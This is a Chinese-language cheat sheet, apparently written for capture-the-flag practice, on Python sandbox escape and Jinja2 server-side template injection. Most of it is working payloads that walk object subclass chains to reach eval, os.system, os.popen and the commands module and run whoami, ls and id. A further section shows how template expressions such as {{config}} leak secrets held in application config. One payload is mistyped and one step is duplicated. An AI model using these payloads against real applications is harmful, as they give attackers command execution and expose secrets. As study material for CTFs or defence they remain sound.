 #### 命令执行

* **利用eval进行命令执行**。

	''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

* **利用warnings.catch_warnings 进行命令执行。**

首先，查看`warnings.catch_warnings`方法的位置。

	[].__class__.__base__.__subclasses.__().index(warnings.catch_warnings)

查看`linecatch`的位置：

	[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')

查找 os 模块的位置：

	[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')

查找 system 方法的位置：
	
	[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

调用 system 方法：

	[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

* **利用 commands 进行命令执行。**


	{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')


	{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')


	{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()


#### **姿势集**  



 {{config}} 可以获取当前设置，如果题目是这样的：

	app.config ['FLAG'] = os.environ.pop（'FLAG'）

可以直接访问 {{config['FLAG']}} 或者 {{config.FLAG}} 得到 flag。

 

 同样可以找到flag.

	{{self.__dict__.TemplateReference__context.config}}

利用 `[] ()`
